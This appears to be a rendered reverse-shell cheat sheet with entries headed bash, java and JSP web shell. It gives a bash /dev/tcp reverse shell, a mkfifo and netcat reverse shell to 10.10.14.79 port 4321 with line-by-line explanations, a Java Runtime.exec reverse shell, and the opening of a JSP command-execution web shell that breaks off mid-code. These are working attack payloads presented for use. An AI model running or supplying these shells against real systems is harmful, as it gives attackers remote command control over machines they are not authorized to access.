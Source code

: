 ## bash

```bash
bash -c 'bash -i >& /dev/tcp/$ipAttacker/$port 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.79 4321 >/tmp/f

# rm /tmp/f;
# Removes the /tmp/f file if it exists, -f causes rm to ignore nonexistent files. The semi-colon (;) is used to execute the command sequentially.

# mkfifo /tmp/f;
# Makes a FIFO named pipe file at the location specified. In this case, /tmp/f is the FIFO named pipe file, the semi-colon (;) is used to execute the command sequentially.

# cat /tmp/f |
# Concatenates the FIFO named pipe file /tmp/f, the pipe (|) connects the standard output of cat /tmp/f to the standard input of the command that comes after the pipe (|).

# /bin/sh -i 2>&1 |
# Specifies the command language interpreter using the -i option to ensure the shell is interactive. 2>&1 ensures the standard error data stream (2) & standard output data stream (1) are redirected to the command following the pipe (|).

# nc $ip <port> >/tmp/f
# Uses Netcat to send a connection to our attack host $ip listening on port <port>. The output will be redirected (>) to /tmp/f, serving the Bash shell to our waiting Netcat listener when the reverse shell one-liner command is executed

```

## java

```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/$ipAttacker/$port;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## JSP web shell

```java
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
```